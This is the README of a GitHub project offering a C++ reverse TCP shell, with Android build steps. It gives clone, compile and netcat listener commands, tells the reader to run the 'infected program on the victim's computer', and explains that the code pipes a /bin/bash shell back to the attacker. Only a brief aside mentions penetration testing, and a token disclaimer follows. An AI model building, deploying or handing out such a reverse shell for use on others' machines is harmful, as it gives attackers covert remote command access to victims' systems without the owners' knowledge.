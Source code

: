 <h1 align="center">
    <a href="https://github.com/Untouchable17/Reverse-TCP-Shell">
        <img src="https://i.ibb.co/Q9kQqZ5/bruh.png" width="700">
    </a>
</h1>

<p align="center">
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell"><img src="https://img.shields.io/static/v1?label=version&message=1.0.0&color=red"></a>
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell/issues?q=is:issue+is:closed"><img src="https://img.shields.io/github/issues-closed/Untouchable17/Reverse-TCP-Shell?color=orange"></a>
</p>

<h1 align="center">TCP Reverse Shell C++</h1>

<b>TCP reverse shell</b> is a type of shell in which the attacker creates a connection from the target machine back to the attacker's machine, rather than the attacker connecting directly to the target. In this script, the attacker typically sets up a listener on a specified port on their own machine, and the victim machine is then compromised with malware that establishes a connection to the attacker's listener. Once the connection is established, the attacker has access to a command prompt on the victim machine, and can execute commands and interact with the system as if they were sitting at the machine itself. This technique is commonly used in cyber attacks and penetration testing
<h2 align="center">Installation</h2>

<p align="center">Installing and using program process:</p>

<p align="center">Execute all commands on behalf of the superuser and set your machine ip and port in files</p>

1. Download or clone this repository.
```
git clone https://github.com/Untouchable17/Reverse-TCP-Shell
```
2. Make the file executable with the chmod +x command
```
chmod +x install.sh
```
<br/>
3. Run the bash script `install.sh`

<br>This script will automatically download and install all the necessary dependencies, compile the programs, and then offer you to choose 1 of 3 start options


> Other Method: Manual Installation
1. Downloading or cloning this GitHub repository.
```
git clone https://github.com/Untouchable17/TCP-Reverse-Shell
```
2. Update system packages and install libpcap
```
apt-get update && apt-get upgrade -y
apt-get install libpcap-dev -y
```
3. Compile files
```
g++ ReverseShell.cpp -o ReverseShell.o
g++ SecureTCPConnection.cpp -o SecureTCPConnection.o
```
4. Run one of the program
```
./ReverseShell.o or ./SecureTCPConnection.o
```
<br>You can add the correct path to global like this: `export PATH="$PATH:$(pwd)"` and then you can run the program by just entering their name ReverseShell.o or SecureTCPConnection.o


<h2 align="center">Install and build the apk file for Android</h2>
<b>Method 1:<b/> To build, use the `gradle build` command in the `Android Studio` terminal. This command will compile the source code and create an `APK file` that can be installed on an Android device
<br>
<b>Method 2:</b>Install Android SDK (Native Development Kit) and compile the program code in C++ with the command `ndk-build` and then assemble the APK file using `ant release` command


<h2 align="center">How to use</h2>
<p>At first, start listening on the hacker's computer (or on your own) to the port you specified in the file (by default, port 4444), and then run the compiled infected file on the victim's computer</p>

1. Starting port listening
```
nc -nlvp SET_PORT (ex. 4444)
```
2. Execute the infected program on the victim's computer
3. Congratulations, now you have a shell
4. If interactivity has not appeared, execute this command
```
script -a /dev/null
```

```
change shell: chsh -s /bin/{shell}
```

```
show list shells: cat /etc/shells
```

<h2 align="center">A little explanation of the code and a teaser</h2>

- This program is a type of software that allows an attacker to gain remote access to a computer or network without the knowledge or permission of the system owner.

- This code creates a TCP socket that connects to the specified server and port. Then the child process is created using the fork() call. The child process runs the /bin/bash shell, which allows an attacker to execute arbitrary commands on a remote system.

- In the parent process, commands are read from a remote client via a socket. The received commands are passed to the child process for execution using the open() call, and the results of executing commands are sent back to the client via the socket. The parent process constantly waits for commands from the client and executes them until the client closes the connection.

- In general, this code can be used for illegal access to a computer or network, so its use for illegal purposes is prohibited.


## Contact Developer


    Telegram:           @secdet17
    Group:              t.me/secdet_team
    Email:              tylerblackout17@gmail.com

